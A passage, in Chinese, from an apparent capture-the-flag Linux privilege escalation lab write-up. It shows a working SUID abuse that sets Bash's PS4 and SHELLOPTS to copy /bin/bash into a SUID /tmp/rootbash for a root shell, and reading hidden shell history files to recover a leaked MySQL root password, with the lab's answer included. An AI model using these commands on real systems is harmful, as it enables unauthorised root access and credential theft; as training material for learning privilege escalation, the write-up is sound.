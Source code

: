 记得在继续之前退出 root shell！

## SUID / SGID 可执行文件 - 滥用 Shell 功能（#2）

:::note

这种方法在 `Bash 4.4` 及更高版本上无法生效。

:::

在调试模式下，Bash 使用环境变量 `PS4` 来显示用于调试语句的额外提示。

以启用 Bash 调试并将 `PS4` 变量设置为一个嵌入式命令的方式运行 `/usr/local/bin/suid-env2` 可执行文件，该命令将创建 `/bin/bash` 的 SUID 版本：

```shell
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

运行 `/tmp/rootbash` 可执行文件并附加 `-p` 选项以获取以 root 权限运行的 shell：

```shell
/tmp/rootbash -p
```

记得在继续之前移除 `/tmp/rootbash` 可执行文件并退出提权后的 shell，因为稍后你将在房间中再次创建这个文件！

```shell
rm /tmp/rootbash
exit
```

## 密码与密钥 - 历史文件

如果用户不小心在命令行中输入密码而不是在密码提示符中输入，密码可能会被记录在历史文件中。

查看用户主目录中所有隐藏历史文件的内容：

```shell
cat ~/.*history | less
```

请注意，用户曾尝试连接到 MySQL 服务器，使用了 "root" 用户名和通过命令行提交的密码。请注意，-p 选项和密码之间没有空格！

使用密码切换到 root 用户：

```shell
su root
```

在继续之前，请记得退出 root shell！

:::info Answer the questions below

用户执行的完整 mysql 命令是什么？

```plaintext
mysql -h somehost.local -uroot -ppassword123
```

:::
